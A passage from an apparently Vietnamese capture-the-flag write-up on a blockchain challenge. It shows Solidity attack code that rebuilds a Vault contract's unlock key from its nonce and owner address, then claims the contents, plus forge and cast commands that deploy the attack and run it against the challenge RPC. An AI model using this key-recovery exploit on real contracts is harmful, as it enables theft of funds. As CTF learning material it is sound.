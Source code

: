 ```
        // Incrementing the nonce for the next key generation.
        nonce++;
    }
    // Public function to unlock the vault.
    function unlock() public {
        // Setting the nonce to be the same as the Vault's nonce.
        nonce = vault.nonce();
        // Generating the 'magic' password and extracting the most significant bits.
        uint128 _secretKey = uint128(bytes16(_magicPassword()) >> 64);
        // Getting the least significant bits of the owner's address.
        uint128 _owner = uint128(uint64(uint160(vault.owner())));
        // Unlocking the vault with the concatenated owner and secret key.
        vault.unlock(bytes16((_owner << 64) | _secretKey));
        // Claiming the content of the Vault.
        vault.claimContent();
    }
}
```

Đảm bảo rằng cả `attack.sol` và `Vault.sol` đều nằm trong cùng thư mục `/src` đang compile project.

Tiếp theo, cần compile project và deploy nó đến target, đảm bảo truyền vào passphrase đã lấy được từ trước đó:

```
└─$ forge create src/attack.sol:attack --rpc-url http://<IP and Port>/rpc --private-key $PrivateKey --constructor-args $TargetAddress $Passphrase
```

Nếu mọi việc diễn ra suôn sẻ, sẽ deploy contract thành công và nhận được address đã deploy contract.

![alt text](image-4.png)

Có thể sử dụng address này để gọi hàm `unlock` đã tạo.

```
└─$ cast send $DeployedToAddress "unlock()" --rpc-url http://<IP and Port>/rpc --private-key $PrivateKey
```

![alt text](image-5.png)
